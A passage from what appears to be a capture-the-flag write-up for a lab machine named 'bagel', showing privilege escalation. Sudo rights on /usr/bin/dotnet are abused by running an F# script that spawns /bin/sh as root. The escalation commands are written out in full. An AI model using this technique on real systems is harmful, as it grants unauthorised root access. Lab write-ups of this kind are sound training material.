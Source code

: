 The login is successful for the user _developer_.

### Developer

Using the `sudo -l` command, we discover that _developer_ can run `/usr/bin/dotnet`{:.filepath} as root.

>
```
User developer may run the following commands on bagel:
    (root) NOPASSWD: /usr/bin/dotnet
```

A quick reference to [GTFOBins](https://gtfobins.github.io/gtfobins/dotnet/) reveals that we can abuse this exception to get a shell as root.

```bash
# developer@bagel.htb (SSH)
TF=$(mktemp --suffix=.fsx)
echo 'System.Diagnostics.Process.Start("/bin/sh").WaitForExit();;' > $TF
sudo /usr/bin/dotnet fsi $TF
```
{:.nolineno}
